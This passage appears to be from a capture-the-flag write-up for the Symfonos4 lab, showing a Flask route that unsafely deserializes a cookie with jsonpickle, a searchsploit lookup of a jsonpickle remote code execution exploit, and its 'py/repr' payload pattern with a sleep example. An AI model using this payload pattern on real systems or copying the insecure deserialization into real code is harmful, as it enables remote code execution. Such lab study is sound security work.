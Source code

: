 ```bash
def whoami():
    user = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
    username = user.username
    return render_template("whoami.html", username=username)


if __name__ == '__main__':
    app.run()
```

Searching for vulnerabilities with searchsploit, I found that the **jsonpickle** module is vulnerable to Remote Code Execution, as shown below:

```bash
root@kali:~$ searchsploit jsonpickle                 
------------------------------------------------------------ ---------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------
python jsonpickle 2.0.0 - Remote Code Execution             | multiple/remote/49585.py
------------------------------------------------------------ ---------------------------
```
We transfer a copy of the exploit to our current directory, and we analyze the proof of concept to exploit this vulnerability, this security flaw consists if malicious data is deserialized, it will execute arbitrary Python commands, the problem is in the inner function loadrepr function which eval each serialized string which contains "py/repr", to know more obout this vulnerability you can find it [here](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/).

```bash
root@kali:~$ searchsploit -m multiple/remote/49585.py


root@kali:~$ cat 49585.py
...
#       the pattern should be :
#       {..{"py/repr":<the module to import>/<the command to be executed.>}..}

#       example:

malicious = '{"1": {"py/repr": "time/time.sleep(10)"}, "2": {"py/id": 67}}'
...
```

## Privilege Escalation
### Jsonpickle Module

First we intercept the web page request, and send it to repeater.

![](/assets/images/symfonos4/screenshot-9.png)